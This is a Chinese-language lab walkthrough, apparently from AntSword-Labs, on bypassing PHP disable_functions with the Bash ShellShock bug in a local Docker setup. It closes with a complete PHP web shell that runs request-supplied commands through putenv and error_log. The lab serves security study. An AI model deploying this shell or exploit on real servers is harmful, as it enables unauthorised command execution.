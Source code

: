 ## 02 利用 ShellShock (CVE-2014-6271)

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

### 使用条件

* Linux 操作系统
* `putenv`
* `mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`
* `/bin/bash` 存在 `CVE-2014-6271` 漏洞
* `/bin/sh -> /bin/bash` sh 默认的 shell 是 bash 

###  绕过实验

AntSword >= 2.1.4

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:
`http://127.0.0.1:18080/index.php` | ant
`http://127.0.0.1:18080/shell.php` | ant

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2019/07/08/5d221a74179c434216.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"NKonQAcRd5DAIcRj","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{"User-Agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 8_0 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A365 MicroMessenger/5.4.1 NetType/WIFI"}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions 2","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562515402313}
```

3. 查看 PHPINFO 验证是 system 等函数已被禁用

![2.png](https://i.loli.net/2019/07/08/5d221a77ee2f022649.png)

4. AntSword 虚拟终端中已经集成了对 ShellShock 的利用, 直接在虚拟终端执行命令即可

![3.png](https://i.loli.net/2019/07/08/5d221a7accb5f56265.png)

**注意1:**

注意看上图中 1 位置的进程树的情况

如果执行命令直接使用 `system` 等执行命令的函数, 进程列表是这样的:

```
www-data   810   684  0 Jul06 ?        00:00:14 /usr/sbin/apache2 -k start
www-data   909   712  0 00:17 ?        00:00:00 sh -c /bin/sh -c "cd "/var/www/html";ps -aef;echo [S];pwd;echo [E]" 2>&1
www-data   910   909  0 00:17 ?        00:00:00 /bin/sh -c cd /var/www/html;ps -aef;echo [S];pwd;echo [E]
www-data   911   910  0 00:17 ?        00:00:00 ps -aef
```

可以明显看出本例中执行命令时, 利用了 PHP `error_log` 函数在执行 `sh -c  -t -i ` 时, Bash 的 ShellShock 漏洞, 从而实现了执行我们自定义命令的目的。 

**注意2:**

执行了 `ls -al /tmp`, 可以看到每次都生成了以 `as` 开头的临时文件, 这就是我们执行完命令之后, 将输出重定向到了临时文件中, 然后再读出来


#### 手动

原理脚本如下:

```
<?php
function runcmd($c){
  $d = dirname($_SERVER["SCRIPT_FILENAME"]);
  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') || function_exists('mail'))){
    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){
      $tmp=tempnam(sys_get_temp_dir(), 'as');
      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
      if (function_exists('error_log')) {
        error_log("a", 1);
      }else{
        mail("a@127.0.0.1", "", "", "-bv");
      }
    }else{
      print("Not vuln (not bash)\n");
    }
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output!=""){
      print($output);
    }else{
      print("No output, or not vuln.");
    }
  }else{
    print("不满足使用条件");
  }
}

// runcmd("whoami"); // 要执行的命令
runcmd($_REQUEST["cmd"]); // ?cmd=whoami
?>
```

